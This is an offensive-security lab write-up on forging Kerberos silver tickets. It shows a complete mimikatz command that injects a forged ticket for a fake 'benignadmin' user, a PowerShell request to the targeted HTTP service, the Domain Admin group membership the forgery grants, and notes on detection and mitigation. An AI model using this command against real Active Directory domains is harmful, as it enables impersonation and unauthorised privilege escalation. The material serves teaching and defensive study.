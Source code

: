```yaml
---
layout: post
title: "kerberos silver tickets"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /kerberos-silver-tickets/
---
```


---
layout: post
title: "kerberos silver tickets"
date: 2024-06-18
categories: active-directory-kerberos-abuse
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /kerberos-silver-tickets/
---

---
description: Credential Access
---

# Kerberos: Silver Tickets

This lab looks at the technique of forging a cracked TGS Kerberos ticket in order to impersonate another user and escalate privileges from the perspective of a service the TGS was cracked for.

This lab builds on the explorations in [T1208: Kerberoasting](t1208-kerberoasting.md) where a TGS ticket got cracked.

## Execution

I will be using mimikatz to create a Kerberos Silver Ticket - forging/rewriting the cracked ticket with some new details that benefit me as an attacker.&#x20;

Below is a table with values supplied to mimikatz explained and the command itself:

| Argument                                            | Notes                                                                                             |
| --------------------------------------------------- | ------------------------------------------------------------------------------------------------- |
| /sid:S-1-5-21-4172452648-1021989953-2368502130-1105 | SID of the current user who is forging the ticket. Retrieved with `whoami /user`                  |
| /target:dc-mantvydas.offense.local                  | server hosting the attacked service for which the TGS ticket was cracked                          |
| /service:http                                       | service type being attacked                                                                       |
| /rc4:a87f3a337d73085c45f9416be5787d86               | NTLM hash of the password the TGS ticket was encrypted with. `Passw0rd` in our case               |
| /user:beningnadmin                                  | Forging the user name. This is the user name that will appear in the windows security logs - fun. |
| /id:1155                                            | Forging user's RID - fun                                                                          |
| /ptt                                                | Instructs mimikatz to inject the forged ticket to memory to make it usable immediately            |

Getting our user's SID as explained in the first step in the above table:

![Getting a user's SID](../../.gitbook/assets/silver-tickets-whoami.png)

Issuing the final mimikatz command to create our forged (silver) ticket:

{% code title="attacker@victim" %}
```csharp
mimikatz # kerberos::golden /sid:S-1-5-21-4172452648-1021989953-2368502130-1105 /domain:offense.local /ptt /id:1155 /target:dc-mantvydas.offense.local /service:http /rc4:a87f3a337d73085c45f9416be5787d86 /user:beningnadmin
```
{% endcode %}

Checking available tickets in memory with `klist` - note how the ticket shows our forged username `benignadmin` and a forged user id:

![](<../../.gitbook/assets/silver-tickets-generated-ticket (2).png>)

Note in the above mimikatz window the `Group IDs` which our fake user `benignadmin` is now a member of due to the forged ticket:

| GID | Group Name                  |
| --- | --------------------------- |
| 512 | Domain Admins               |
| 513 | Domain Users                |
| 518 | Schema Admins               |
| 519 | Enterprise Admins           |
| 520 | Group Policy Creator Owners |

![](../../.gitbook/assets/silver-tickets-groups.png)

Initiating a request to the attacked service with a TGS ticket - note that the authentication is successfull:

{% code title="attacker@victim" %}
```csharp
Invoke-WebRequest -UseBasicParsing -UseDefaultCredentials http://dc-mantvydas.offense.local
```
{% endcode %}

![](../../.gitbook/assets/silver-tickets-httprequest.png)

## Observations

Note a network logon from `benignadmin` as well as forged RIDs:

![](<../../.gitbook/assets/silver-tickets-4624 (1) (1).png>)

It is better not to use user accounts for running services on them, but if you do, make sure to use really strong passwords! Computer accounts generate long and complex passwords and they change frequently, so they are better suited for running services on. Better yet, follow good practices such as using [Group Managed Service Accounts](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/hh831782\(v=ws.11\)) for running more secure services.

## References

{% embed url="https://blog.stealthbits.com/impersonating-service-accounts-with-silver-tickets" %}

{% embed url="https://adsecurity.org/?p=2011" %}
@spotheplanet
